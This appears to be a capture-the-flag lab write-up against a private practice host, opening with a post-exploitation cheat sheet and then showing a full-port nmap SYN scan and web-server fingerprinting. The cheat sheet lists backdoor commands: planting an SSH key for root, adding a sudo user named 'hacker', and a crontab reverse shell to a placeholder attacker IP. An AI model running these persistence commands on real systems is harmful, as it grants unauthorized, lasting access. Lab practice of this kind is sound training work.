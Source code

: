     ```
    
    ```jsx
    Post-Exploitation
    ├── Shell Stabilization
    │   ├── python3 -c 'import pty; pty.spawn("/bin/bash")'
    │   ├── stty raw -echo; fg
    │   └── export TERM=xterm
    │
    ├── Persistence Techniques
    │   ├── echo YOUR_PUB_KEY >> /root/.ssh/authorized_keys
    │   ├── Add user: useradd hacker -m -s /bin/bash; echo pass | chpasswd
    │   ├── Add to sudo: usermod -aG sudo hacker
    │   └── Crontab backdoor: echo "* * * * * bash -i >& /dev/tcp/YOUR_IP/4444 0>&1" >> /etc/crontab
    
    ```
    

---

So, now I’m connected to the server

and we performed nmap aggressive on it nvm, it says >1hr ETA

So, I did a half TCP scan

```jsx
# Nmap 7.95 scan initiated Fri Jun 20 05:47:26 2025 as: /usr/lib/nmap/nmap --privileged -sS -p- -oN nmap.half 10.10.43.71
Nmap scan report for 10.10.43.71
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown

# Nmap done at Fri Jun 20 06:04:19 2025 -- 1 IP address (1 host up) scanned in 1012.59 seconds
```

Did a little but sitemapping, on [`http://10.10.43.71:31331/ultratech@yopmail.com`](http://10.10.43.71:31331/ultratech@yopmail.com) using burp

we get `Apache/2.4.29 (Ubuntu) Server at 10.10.43.71 Port 31331` we got the running version

Same on wappalyzer:

[**Web servers**](https://www.wappalyzer.com/technologies/web-servers/?utm_source=popup&utm_medium=extension&utm_campaign=wappalyzer)

[Apache HTTP Server2.4.29](https://www.wappalyzer.com/technologies/web-servers/apache-http-server/?utm_source=popup&utm_medium=extension&utm_campaign=wappalyzer)

[**Operating systems**](https://www.wappalyzer.com/technologies/operating-systems/?utm_source=popup&utm_medium=extension&utm_campaign=wappalyzer)

[Ubuntu](https://www.wappalyzer.com/technologies/operating-systems/ubuntu/?utm_source=popup&utm_medium=extension&utm_campaign=wappalyzer)
